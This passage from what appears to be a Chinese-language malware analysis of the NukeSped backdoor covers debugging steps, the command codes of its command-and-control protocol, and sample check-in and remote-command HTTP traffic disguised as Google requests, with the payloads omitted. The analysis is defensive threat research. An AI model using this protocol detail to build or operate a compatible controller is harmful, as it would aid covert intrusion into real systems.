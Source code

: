 2.调试NukeSped后门，在第二次执行recv函数处下断点；

3.当调试NukeSped后门时，在调试第二次执行recv函数前，步过上线请求响应程序中的断点，则NukeSped后门将成功接收上线请求响应载荷，后续即可正常调试。

## 通信模型分析

基于上述样本分析情况，梳理样本通信模型如下：

-   NukeSped后门 --> NukeSped控制端

| 通信命令 | 命令描述 |
| --- | --- |
| 10  | 初始连接 |
| 30  | 命令执行成功 |
| 35  | 命令执行失败 |

-   NukeSped控制端 --> NukeSped后门

| 通信命令 | 命令描述 |
| --- | --- |
| 11  | 样本自删除 |
| 12  | 休眠1小时 |
| 30  | 向管道传输数据 |
| 33  | 创建进程，并返回进程回显信息 |
| 34  | 终止33指令运行的进程程序 |

详细通信数据如下：

### 上线请求

```plain
POST /login.php HTTP/1.1 
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-XXXXXXX
Sec-Fetch-Dest: 01
```

### 远控功能

通过分析，样本上线后，上线响应即用于远程控制，通信载荷如下：

-   远控指令33

```plain
#远控指令
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18

..................  #加密载荷

#远控指令回显
GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1 
Sec-Fetch-Mode: 30
Content-Length: 00000023
Connection: keep-alive

....................... #加密载荷
```